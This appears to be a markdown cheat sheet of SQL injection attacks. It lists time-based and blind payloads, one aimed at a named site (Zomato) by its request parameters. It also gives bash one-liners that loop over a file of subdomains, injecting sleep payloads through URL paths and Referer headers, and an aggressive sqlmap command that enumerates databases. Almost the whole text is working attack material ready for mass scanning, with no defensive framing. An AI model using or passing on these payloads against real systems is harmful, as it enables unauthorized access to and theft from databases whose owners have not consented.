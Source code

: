 ### SQL injections:

1) SQL injection email parameter via POST method:

   Payload:

    ```
   '%2b(select*from(select(sleep(2)))a)%2b'
    ```

2) Zomato Blind sql:
   ```
   res_id=51-CASE/**/WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END&city_id=0

   ```

3) Blind SQL onliner for domains:
```
while read -r url; do echo "Testing $url"; curl -m 20 -s -o /dev/null -w "%{time_total}\n" "$url/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z"; done < sub.txt

```

4) SQLMAP command:

   ```
   python3 sqlmap.py -r request --batch --random-agent --tamper=space2comment --level=5 --risk=3 --drop-set-cookie --threads 10 --dbs

   ```

   5) Time based SQL injection:
  
      ```
      while read -r url; do echo "Testing $url"; curl -m 20 -s -o /dev/null -w "%{time_total}\n" "$url/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z"; done < sub.txt
      ```

      6) Time based SQL injection Via referer headers.
   ```
   cat sub.txt | while read domain; do curl -s -H "Referer: http://www.google.com/search?hl=en&q='+(select*from(select(sleep(7*7)))a)+'" "$domain" | grep -q "200 OK" && echo "Vulnerable: $domain" || echo "Not Vulnerable: $domain"; done
```
